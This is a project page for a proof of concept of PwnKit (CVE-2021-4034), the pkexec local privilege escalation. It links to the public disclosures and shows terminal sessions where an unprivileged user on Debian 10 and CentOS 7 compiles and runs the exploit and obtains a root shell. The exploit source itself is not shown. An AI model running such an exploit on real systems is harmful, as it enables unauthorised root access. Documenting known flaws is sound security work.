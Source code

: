 ```yaml
---
slug:  "/projects/poc"
date:  "2022-06-14T19:53:35Z"
title: "poc"
icon:  "c"
---
```


# CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

Verified on Debian 10 and CentOS 7.

```
user@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```

